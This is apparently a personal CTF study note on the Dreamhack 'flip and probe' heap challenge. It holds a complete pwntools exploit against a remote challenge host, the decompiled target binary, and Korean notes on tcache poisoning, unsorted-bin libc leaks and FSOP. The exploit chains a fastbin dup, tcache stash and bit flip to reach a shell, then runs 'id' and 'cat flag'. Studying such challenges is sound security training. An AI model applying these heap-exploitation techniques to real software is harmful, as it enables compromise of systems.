

## flip and probe 1(fastbin)

```python
#!/usr/bin/env python3
# dh-flip-and-probe — remote pwn
#   nc host3.dreamhack.games 22547   (glibc 2.35, Ubuntu 22.04)
# Technique: fastbin dup -> tcache stash -> 1-bit fd poison (bit4) -> overlap chunk at B+0x10,
#            write "gimmeflag" into the tcache-stable region (offset >=0x10), repair the
#            9th byte wiped by tcache_get's key-clear, then trigger the strncmp win gate.
# No infoleak required — the poison bit and alloc counts are structural (all 0x40 user
# pointers are == 0x20 mod 0x40, so a bit-4 flip maps chunk -> chunk+0x10).
import sys, time
from pwn import *
context.update(arch='amd64', log_level='info')

TARGET = sys.argv[1] if len(sys.argv) > 1 else 'remote'
LOCAL_BIN = './main'

def start():
    if TARGET == 'remote':
        return remote('host3.dreamhack.games', 22547)
    return process(LOCAL_BIN)

io = start()

def menu_send(c):
    io.recvuntil(b'> '); io.send(f"{c}\n".encode())      # menu read is read(,,2): 2-byte field

def intfield(n):
    b = f"{n}\n".encode(); assert len(b) <= 6
    return b + b'\n' * (6 - len(b))                       # int read is read(,,6): fixed 6-byte field

def alloc(n): menu_send(0); io.recvuntil(b'> '); io.send(intfield(n))
def free(n):  menu_send(2); io.recvuntil(b'> '); io.send(intfield(n))
def win(n):   menu_send(3); io.recvuntil(b'> '); io.send(intfield(n))
def flip(n, m):
    menu_send(1); io.recvuntil(b'> '); io.send(intfield(n))
    io.recvuntil(b'> '); io.send(intfield(m))
    bit = io.recvn(1); io.recvn(1)                        # program prints probed bit + '\n'
    return bit

A, B = 100, 101
FILL, DRAIN = list(range(7)), list(range(110, 117))
STASH, P1, P2, P3 = 120, 121, 122, 123

def set_byte_bits(idx, byte_off, value):
    # chunk byte at `byte_off` starts 0x00; flip each set bit, re-arming via a tcache cycle.
    for b in [b for b in range(8) if (value >> b) & 1]:
        flip(idx, byte_off * 8 + b)
        free(idx); alloc(idx)

# Phase A: write "gimmefla" at B+0x10..B+0x17 (stable region)
alloc(A); alloc(B)
for i, ch in enumerate(b"gimmefla"):
    set_byte_bits(B, 0x10 + i, ch)

# Phase B: fastbin dup + stash -> tcache poison (bit4) -> ptr[P3] = B+0x10
for i in FILL:  alloc(i)
for i in FILL:  free(i)              # tcache[0x40] full (7)
free(A); free(B); free(A)           # fastbin dup A->B->A
for i in DRAIN: alloc(i)             # drain tcache
alloc(STASH)                         # fastbin alloc returns A (live) + stashes B,A into tcache
flip(STASH, 4)                       # A.fd bit4 -> A.fd = B+0x10
alloc(P1); alloc(P2); alloc(P3)      # pop B, A, B+0x10 ; tcache_get zeroes B+0x18

# Phase C: repair B+0x18 = 'g' (P1 holds B)
set_byte_bits(P1, 0x18, ord('g'))

# Phase D: win
win(P3)

io.sendline(b'echo PWNED_$((7*6)); id; cat flag 2>/dev/null; cat /home/pwn/flag 2>/dev/null')
time.sleep(0.5)
got = b''
try:
    for _ in range(6): got += io.recv(timeout=2)
except Exception: pass
print("=====SHELL OUTPUT=====\n" + got.decode(errors='replace') + "\n======================")
if TARGET == 'remote':
    io.interactive()
else:
    io.close()

```

```c
[0x00001160]> pdg @ main

void main(int argc,char **argv,char **envp)

{
    char cVar1;
    int iVar2;
    int iVar3;
    int iVar4;
    ulong uVar5;
    int64_t in_FS_OFFSET;
    int8_t var_15h;
    size_t n;
    ushort ptr;
    uchar var_9h;
    int64_t var_8h;

    var_8h = *(in_FS_OFFSET + 0x28);
    ptr = 0xa00;
    var_9h = 0;
    do {
        while (cVar1 = fcn.00001249(), cVar1 != '3') {
            if ('3' < cVar1) goto code_r0x00001623;
            if (cVar1 == '2') {
                iVar2 = fcn.000012bd();
                if ((-1 < iVar2) && (iVar2 < 0x100)) {
                    sym.imp.free(*(iVar2 * 8 + 0x4040));
                    *(iVar2 + 0x4840) = 1;
                }
            }
            else {
                if ('2' < cVar1) goto code_r0x00001623;
                if (cVar1 == '0') {
                    iVar2 = fcn.000012bd();
                    if ((-1 < iVar2) && (iVar2 < 0x100)) {
                        uVar5 = sym.imp.malloc(0x30);
                        *(iVar2 * 8 + 0x4040) = uVar5;
                        *(iVar2 + 0x4840) = 0;
                    }
                }
                else {
                    if (cVar1 != '1') goto code_r0x00001623;
                    iVar2 = fcn.000012bd();
                    if (((-1 < iVar2) && (iVar2 < 0x100)) && (*(iVar2 + 0x4840) == '\0')) {
                        *(iVar2 + 0x4840) = 1;
                        iVar3 = fcn.000012bd();
                        if ((-1 < iVar3) && (iVar3 < 0x180)) {
                            iVar4 = iVar3 >> 3;
                            ptr = CONCAT11(ptr._1_1_,*(iVar4 + *(iVar2 * 8 + 0x4040)) >> (iVar3 & 7)) & 0xff01;
                            ptr = CONCAT11(ptr._1_1_,ptr + '0');
                            *(iVar4 + *(iVar2 * 8 + 0x4040)) = *(iVar4 + *(iVar2 * 8 + 0x4040)) ^ 1 << (iVar3 & 7);
                            sym.imp.write(1,&ptr,2);
                        }
                    }
                }
            }
        }
        iVar2 = fcn.000012bd();
    } while ((iVar2 < 0) || (0xff < iVar2));
    iVar2 = sym.imp.strncmp(*(iVar2 * 8 + 0x4040),"gimmeflag",9);
    if (iVar2 != 0) {
    //WARNING: Subroutine does not return
        sym.imp.exit(0);
    }
    sym.imp.system("/bin/sh");
code_r0x00001623:
    //WARNING: Subroutine does not return
    sym.imp.exit(0);
}
```

## flip and probe 2(unsorted bin)

- <strong>tcache</strong>: LIFO 단일 연결 리스트. 크기별 bin, bin당 <strong>7개까지</strong>. fd만 씀(이중 연결 아님). free/malloc이 <strong>head에서만</strong> 일어남 ⇒ AAR로 연계
  - UAF

    
  - double free(가용 공간에 있으면서도 malloc을 아무리 해도 B에만 쓸 수 있는 상태 )
    - tcache key라는 우회기법이 있음
      - tcache 청크:  [ fd ][ key ]      key == tcache_struct 주소면 "이미 free됨"으로 판정
- <strong>unsorted bin</strong>: 이중 연결 리스트(fd + bk). tcache가 꽉 찼거나 크기가 tcache 범위를 넘는 청크가 여기로 감. <span class="highlight-yellow">핵심은 </span><span class="highlight-yellow"><strong>main_arena 안에 리스트 head가 있다</strong></span><span class="highlight-yellow">는 것 - 그래서 첫 청크의 bk가 </span><span class="highlight-yellow">`main_arena+N`</span><span class="highlight-yellow">을 가리키고, 이게 </span><span class="highlight-yellow"><strong>libc leak의 원천</strong></span>
- glibc 2.35+에서는 free_hook이 없어지기 때문에 FSOP으로
